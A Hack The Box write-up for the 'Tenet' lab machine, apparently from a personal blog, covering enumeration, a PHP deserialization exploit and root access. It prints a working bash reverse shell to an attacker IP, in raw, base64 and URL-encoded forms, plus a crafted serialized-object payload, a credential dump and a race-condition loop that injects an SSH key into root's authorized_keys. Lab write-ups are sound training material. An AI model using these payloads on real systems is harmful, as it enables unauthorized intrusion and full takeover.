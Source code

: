 ```yaml
---
title: "HTB: Tenet Writeup"
date: 2021-06-07T18:46:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb medium
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration

Beginning this box as every box, with a `nmap` scan of the box to locate open ports.

```bash
$ sudo nmap -sC -sV -oA nmap/tenet 10.10.10.223
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 20:00 EDT
Nmap scan report for 10.10.10.223
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

# Foothold
The box appears to have only two open ports (`80` and `22`). Visiting port `80`, it appears to be an Apache site, so then running `gobuster` on it locates an interesting directory:

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.10.223
...{snip}...
/wordpress (Status: 301}
...{snip}...
```

Visiting the `/wordpress` URL in Firefox gives a badly formatted Wordpress site, which looks like it's trying to add resources from `tenet.htb`. So we may add `10.10.10.223 tenet.htb` to our `/etc/hosts` file.

Browsing the site, I see a user `neil` posted a comment:
> did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!

So that's interesting, it sounds like there's a "sator" php file (maybe `sator.php`?). Visiting `http://tenet.htb/sator.php` gives a 404 error, but remembering from before, we're within the `/wordpress` directory, so what about `http://10.10.10.223/sator.php`? Success!!

This `sator.php` script is printing the following:

> [+] Grabbing users from text file  
> [] Database updated

The comment from neil on the Wordpress form mentioned a backup file, so accessing `http://10.10.10.223/sator.php.bak` and it exists!

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Examining this PHP script, we may see that it is receiving user input via `arepo` variable, passing that to `unserialize`, then calling the `DatabaseExport` class. This looks like a classic example of PHP object deserialization. Basically, from my understanding, what is happening is that PHP will allow you to serialize a class and all of the data within it into a string which may then be deserialized back into a class. Then when the control flow exits, the `__destruct` function is called on it. In this example, the `__destruct` function writes the `data` value to `user_file`. [More on PHP deserialization may be read here](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a).

Since we know the name of the class (`DatabaseExport`) as well as the variable names (`user_file` and `data`), we can construct a payload that is a deserialized PHP object that will allow us to write data out to an arbitrary output file of our choice.

For this payload, we will write out to a PHP file with a very basic reverse shell.

To begin with, the reverse shell that I'd like to attempt is the following:

```bash
/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'
```

Wrapping this in a PHP script to execute it, I get:

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'"); ?>
```

However, I forsee a problem here. Specifically the "&" character, which in a URL is treated as a special delimiter and might throw the payload off. So instead I'm going to base64 encode the reverse shell payload:

```bash
$ echo "/bin/bash -c 'bash -i > /dev/tcp/10.10.14.204/9000 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK
```

Then, use the `base64_decode` function in PHP to decode it before executing it:

```php
<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));
```

So that's the payload I want to eventually write to a file.

Next up, I need to serialize that and put it into a proper payload that will deserialize correctly. For this, I'll construct the following payload:

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
```

Above we begin with "O" (the letter Oh, not the number zero) to tell PHP that this is an object, followed by the length of the name (14) and the name ("DatabaseExport"). Next the "2" tells PHP that there are two elements in the next section. Within the section we use "s" to denote a string, then "9" for the length of the next string, which is the name of the variable, and the variable itself ("user_file"). Following that we have the same format to provide the variable contents ("rshell.php"). This is then repeated for the "data" variable to contain our payload.

If all goes well, this should generate a file named "rshell.php" which contains the payload to generate a reverse shell.

When using FireFox, the payload may be directly pasted in and FireFox will encode it. However, I like to be a little cautious and pre-encode before uploading.

```bash
$ hURL -U 'O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}'

Original    :: O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"rshell.php";s:4:"data";s:106:"<?php exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK"));";}
URL ENcoded :: O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D
```

Now that we have the URL encoded payload, we may submit this via the PHP page.

```bash
$ curl 'http://10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A10%3A%22rshell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A106%3A%22%3C%3Fphp%20exec%28base64_decode%28%22L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTQuMjA0LzkwMDAgMD4mMScK%22%29%29%3B%22%3B%7D' 
```

Setting up a netcat listener and visiting the page, we receive a successful callback.

```bash
$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.223] 29836
python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@tenet:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@tenet:/var/www/html$
```

We've successfully logged in as the `www-data` user!

# Privesc

Now we need to enumerate and determine exactly what we can do. For this I ran `linpeas.sh` to locate anything useful, which found the MySQL login information

> Mysql Database: wordpress  
> Mysql User: neil  
> Mysql Pass: Opera2112

Quickly checking those credentials, the user `neil` has the same password for SSH, so we now have SSH access as `neil`.

An additional note is that the script `/usr/local/bin/enableSSH.sh` may be executed by `sudo` by all users. However, without the `www-data` password, that wasn't possible. But now that we have `neil`, that's possible.

Taking a closer look at the `enableSSH.sh` script, it appears to have a hardcoded SSH public key inside of it, it then writes that key to a temporary file, then echos that temporary file into `/root/.ssh/authorized_keys`. If we're able to somehow intercept that temporary file after it is created but before it is sent into the root SSH keys, we can inject our own key into it. This is basically a race condition.

To do this, we could use `python` since that's on the box, but it's also possible to do this with a simple bash script.

```bash
$ while true; do echo "ssh-rsa AAAAB3NzaC1yc2EAAAA...AlU= kali@kali" | tee /tmp/ssh-* >/dev/null; done
```

The above will loop continuously and copy our SSH public key into the `/tmp/ssh-*` file path if/when it exists. This took a couple times before it successfully worked.

```bash
$ sudo /usr/local/bin/enableSSH.sh
```

After executing the above a few times to make sure that the SSH key has made it in, we can then SSH in as root!

